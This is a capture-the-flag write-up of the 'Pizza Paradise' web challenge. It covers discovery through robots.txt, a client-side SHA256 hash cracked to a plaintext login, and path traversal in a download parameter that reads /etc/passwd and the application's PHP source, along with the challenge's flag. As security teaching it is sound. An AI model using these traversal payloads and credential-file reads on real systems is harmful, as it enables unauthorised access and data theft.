



# Pizza Paradise

## Video walkthrough

[](https://youtu.be/qPxKyYrf9p4 "Robots.txt, Hash Cracking and Path Traversal")

## Challenge Description

> Something weird going on at this pizza store!!

## Solution

Players arrive at an online pizza store (AI making some tasty looking pizzas these days 🤤).



There is appears to be nothing of interest, but `/robots.txt` has something.



```txt
User-agent: *
Disallow: /secret_172346606e1d24062e891d537e917a90.html
Disallow: /assets/
```



It's some kind of top secret login portal 🕵️‍♂️



Check the page source.



```js
function hashPassword(password) {
    return CryptoJS.SHA256(password).toString();
}

function validate() {
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;

    const credentials = getCredentials();
    const passwordHash = hashPassword(password);

    if (username === credentials.username && passwordHash === credentials.passwordHash) {
        return true;
    } else {
        alert("Invalid credentials!");
        return false;
    }
}
```



The `getCredentials()` function is in `/assets/js/auth.js`.



```js
const validUsername = "agent_1337";
const validPasswordHash = "91a915b6bdcfb47045859288a9e2bd651af246f07a083f11958550056bed8eac";

function getCredentials() {
    return {
        username: validUsername,
        passwordHash: validPasswordHash,
    };
}
```



Crack the SHA256 hash with `hashcat`, `john` or [crackstation](https://crackstation.net).



```txt
agent_1337:intel420
```



Now we get access to the portal and can download some secret images.



The download function makes a GET request.



```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/topsecret1.png
```



Maybe we can try `/etc/passwd`



```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/etc/passwd
```



But we get an error: `File path not allowed!`

With some trial and error, it's clear that removing `/assets/images/` will cause problems. Let's try path traversal instead.



```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../../../../etc/passwd
```



It works! We could try common locations for a `flag.txt` _or_ we could download the PHP source code of the web app 💡



```
https://pizzaparadise.ctf.intigriti.io/topsecret_a9aedc6c39f654e55275ad8e65e316b3.php?download=/assets/images/../../topsecret_a9aedc6c39f654e55275ad8e65e316b3.php
```



Inside, we find the flag!



```php
$flag = 'INTIGRITI{70p_53cr37_m15510n_c0mpl373}';
```



Flag: `INTIGRITI{70p_53cr37_m15510n_c0mpl373}`
